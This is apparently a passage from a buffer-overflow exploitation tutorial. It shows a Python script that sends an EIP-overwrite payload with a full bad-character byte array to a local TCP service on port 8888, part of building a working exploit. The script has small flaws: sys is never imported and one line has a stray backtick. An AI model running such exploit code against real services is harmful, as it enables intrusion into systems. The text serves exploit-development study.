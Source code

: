 Copying the file to the clipboard:
`cat bytearray.txt| xclip -sel clip`

We dd this to out payload

`#!/usr/bin/python3`

`import socket`
`import signal`

`def def_handler(sig, frame):`
    `print("\n\n[!] Quitting...\n")`
    `sys.exit(1)`

`# Ctrl+C
`signal.signal(signal.SIGINT, def_handler)`

`#Global attributes`
`ip_address="127.0.0.1"`
`offset = 1052`
`before_eip = b"A"*offset`
`eip = b"B"*4`

`badchars = (b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"`
`b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"`
`b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"`
`b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"`
`b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"`
`b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"`
`b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"`
`b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")`

`payload = before_eip + eip + badchars`
`def makeConnection():`

    `s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
    `s.connect((ip_address, 8888))`
    `s.send(payload)`


`if __name__=='__main__':`
    `makeConnection()`

##### Now we can find the bad chars
Dumping the string
